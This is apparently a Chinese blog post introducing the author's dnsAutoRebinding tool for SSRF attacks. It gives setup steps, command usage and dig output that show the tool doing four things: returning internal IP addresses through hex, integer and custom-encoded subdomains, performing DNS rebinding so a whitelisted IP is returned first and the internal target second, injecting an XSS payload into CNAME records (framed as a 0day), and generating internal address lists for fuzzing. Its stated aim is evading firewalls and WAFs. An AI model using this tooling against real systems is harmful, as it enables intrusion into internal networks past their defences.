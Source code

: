 ```yaml
---
layout: post
title: Dns Auto Rebinding
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ssrf时难免会被防火墙拦截恶意返回值，使用过xip.io但效果一般。项目地址：
<a target="_blank" href="https://github.com/Tr3jer/dnsAutoRebinding">Github</a>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ssrf、ssrf内网地址fuzz、dns二次rebinding、支持ipv4/ipv6、支持ip地址转换码、dns记录污染(文末一个0day为例)。脑图在脑子里，懒得画了。

support Record Type and Encoding：

```
MX = ipv4/ipv6/hex
A = ipv4/en/int/hex
AAAA = ipv6/int/hex
CNAME = ipv4/ipv6/hex
```

配置监听服务器example.com：

| record type | record | record value |
| --- | --- | --- |
| A | ns | server ip |
| NS | test | ns.example.com |

> sudo pip install ipaddr

修改lib/config.conf：
maindomain = test.example.com.
注意根地址.要加

```
Usage: sudo python main.py {Options}

Options:
  -h, --help            show this help message and exit
  -t 300, --TTL=300     ttl value , 0 By Default
  -y A/AAAA/CNAME/MX, --Type=A/AAAA/CNAME/MX
                        Record Type , A By Default
  -e int/hex/en, --Encoding=int/hex/en
                        Record Encoding , None By Default
  -r, --Rebinding       The Second Time Query Return Target Ip
  -p "<script>alert(/xss/)</script>", --payload="<script>alert(/xss/)</script>"
                        Specified Record , Support CNAME/MX

```

-y选项指定以什么记录类型返回：

`-y A/AAAA/CNAME/MX, --Type=A/AAAA/CNAME/MX Record Type , A By Default`

-t选项指定TTL值：

`-t 300, --TTL=300     ttl value , 0 By Default`

直接A记录返回ipv4地址：

`sudo ./main.py`

```
➜  ~ dig 192.168.1.1.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 192.168.1.1.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 50359
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;192.168.1.1.test.example.com.	IN	A

;; ANSWER SECTION:
192.168.1.1.test.example.com. 0	IN	A	192.168.1.1

;; AUTHORITY SECTION:
test.example.com.		227	IN	NS	ns.example.com.
```

server:
`[21:54:16] client ip:44486 => A => 192.168.1.1.test.example.com.`

hex编码：

`sudo ./main.py -e hex`

```
➜  ~ dig 31302e302e302e31.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 31302e302e302e31.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 1585
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;31302e302e302e31.test.example.com.	IN	A

;; ANSWER SECTION:
31302e302e302e31.test.example.com. 0 IN	A	10.0.0.1

;; AUTHORITY SECTION:
test.example.com.		600	IN	NS	ns.example.com.
```

server:
`[22:00:42] client ip:30150 => A => 31302e302e302e31.test.example.com.`

int编码：

`sudo ./main.py -e int`

```
➜  ~ dig 3232235777.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 3232235777.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 18066
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;3232235777.test.example.com.	IN	A

;; ANSWER SECTION:
3232235777.test.example.com. 0	IN	A	192.168.1.1

;; AUTHORITY SECTION:
test.example.com.		456	IN	NS	ns.example.com.
```

server:
`[22:03:00] client ip:5240 => A => 3232235777.test.example.com.`

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;因为waf会识别出内网地址才用的上本项目，那么waf大可识别进制转换这种，所以要自己写个地址转换方法：

num to en:

```
./lib/common.py 192.168.1.1

1. Single IP Covert For En
2. Build IP List
[+] [1 By Default/2]
bjckbgikbkb
```

`sudo ./main.py -e en`

```
➜  ~ dig bjckbgikbkb.test.example.com

; <<>> DiG 9.8.3-P1 <<>> bjckbgikbkb.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 5115
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;bjckbgikbkb.test.example.com.	IN	A

;; ANSWER SECTION:
bjckbgikbkb.test.example.com. 0	IN	A	192.168.1.1

;; AUTHORITY SECTION:
test.example.com.		20	IN	NS	ns.example.com.
```

server:
`[22:10:22] client ip:8434 => A => bjckbgikbkb.test.example.com.`


dns二次rebinding:
```
sudo ./main.py -r
Input Safe Ip? [Address/Req By Default]8.8.8.8
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;选择性输入目标信任的地址，比如在ssrf时防火墙在验证dns返回值是否存在于白名单。默认为发起请求的地址。(记得特殊情况需要指定记录类型)


第一次：

```
➜  ~ dig 192.168.1.1.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 192.168.1.1.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 59544
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;192.168.1.1.test.example.com.	IN	A

;; ANSWER SECTION:
192.168.1.1.test.example.com. 0	IN	A	8.8.8.8

;; AUTHORITY SECTION:
test.example.com.		461	IN	NS	ns.example.com.
```

第二次：

```
➜  ~ dig 192.168.1.1.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 192.168.1.1.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 45312
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;192.168.1.1.test.example.com.	IN	A

;; ANSWER SECTION:
192.168.1.1.test.example.com. 0	IN	A	192.168.1.1

;; AUTHORITY SECTION:
test.example.com.		501	IN	NS	ns.example.com.
```

dns记录污染：

`sudo ./main.py -p "<script>alert(/xss/)</script>" -y CNAME`

```
➜  ~ dig test.example.com

; <<>> DiG 9.8.3-P1 <<>> test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 5073
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;test.example.com.			IN	A

;; ANSWER SECTION:
test.example.com.		0	IN	CNAME	<script>alert\(/xss/\)</script>test.example.com.
```

![](http://7xiw31.com1.z0.glb.clouddn.com/0day.png)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;这个怎么玩取决于你的小脑袋瓜的脑回路了。如果防火墙还要验证是否为信任地址的话修改lib/common.py：

```
elif payload != 'None' and payload.find(mainDomain) == -1:
    record = payload + "信任地址."
```

ipListBuild:
批量生成网段地址，选择性编码，适合ssrf内网地址fuzz。

```
python lib/common.py 192.168.1.1

1. Single IP Covert For En
2. Build IP List
[+] [1 By Default/2]2
[+] Please Input Segment Length [24 By Default]
[+] Please Input Encoding ['ipv4' By Default]hex
[+] Please Input Server Root Address [test.example.com By Default]
[+] Stored in the 20170625223912_test_example_com_hex.txt
[root@VM_34_252_centos dnsAutoRebinding]# head -n 5 20170625223912_test_example_com_hex.txt
3139322e3136382e312e31.test.example.com
3139322e3136382e312e32.test.example.com
3139322e3136382e312e33.test.example.com
3139322e3136382e312e34.test.example.com
3139322e3136382e312e35.test.example.com
```


